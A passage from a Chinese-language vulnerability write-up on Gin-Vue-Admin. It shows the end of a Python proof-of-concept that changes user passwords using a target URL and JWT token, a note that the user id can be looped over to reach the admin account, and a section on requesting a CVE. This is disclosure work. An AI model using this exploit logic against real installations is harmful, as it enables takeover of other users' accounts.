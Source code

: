 ```python
        elif json.loads(result.content)['code'] == 0:
            print(f"[+]Modify the success, Account: {payload_data['username']}, password: {payload_data['Password']}")

    def check_interface_ChangePassword(self):
        '''
        wait
        '''
        pass


if __name__ == '__main__':
    try:
        Banner_2 = '''
    
         /$$   /$$              /$$$$$          
        | $$  | $$             |__  $$          
        | $$  | $$ /$$$$$$$$      | $$ /$$   /$$
        | $$  | $$|____ /$$/      | $$| $$  | $$
        | $$  | $$   /$$$$/  /$$  | $$| $$  | $$
        | $$  | $$  /$$__/  | $$  | $$| $$  | $$
        |  $$$$$$/ /$$$$$$$$|  $$$$$$/|  $$$$$$/
         \______/ |________/ \______/  \______/                   
             Autor: UzJu   Email: UzJuer@163.com  GitHub: github.com/uzju  
        '''
        print(Banner_2)
        url = sys.argv[1]
        jwt_token = sys.argv[2]
        main = GinVueAdminPoc(url, jwt_token)
        main.checkVuln()
    except:
        print("[-]please input url and token")
```

为什么check_interface_ChangePassword这个方法没写是因为，这里算是一个暴力破解的一个接口，因为在修改任意用户的密码之前，必须知道需要修改的那个账号的密码，这就像是暴力破解，所以这里并没有写，然后就是checkvuln这个方法，payload_data这个json数据中的id，其实可以任意更改的，也可以写成for循环进行遍历，因为在实际环境中并不确定管理员的ID是否为1，或者说存在恶意破坏的话，也可以造成一定的影响。

![image-20211231143107127](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211231143107127.png)

### 六、CVE申请

> CNVD的就不用说了吧，肯定也已经提交了，这里申请CVE的。
>
> GitHub代申请编号来的特别快，基本上最多3天，这里是当天提交的次日凌晨就收到了CVE的预分配编号
>
> 以下操作需要联系作者帮你操作，不然没有New Draft security advisory这个按钮

![image-20220107164730550](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220107164730550.png)

![image-20220107165445797](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220107165445797.png)
